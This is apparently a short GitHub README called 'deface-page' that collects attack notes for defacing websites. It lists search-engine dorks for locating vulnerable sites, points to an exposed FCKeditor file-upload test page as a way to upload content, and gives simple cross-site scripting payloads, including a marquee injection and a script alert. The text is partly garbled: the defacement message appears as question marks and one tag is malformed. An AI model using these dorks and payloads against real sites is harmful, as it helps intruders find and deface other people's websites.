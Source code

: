 # deface-page
some deface page 

Dork : 

inurl:"frame=product_detail"

exploit site :

target.com/jscripts/FCKeditor/editor/filemanager/upload/test.html


xss : cross site scripting

Dork :

inurl:"/showcatrows.php?CategoryID="

"><marquee><h1>??????</h1></mmarque

Search Site And Add This Xss Dork <script>alert("Xss")</script>
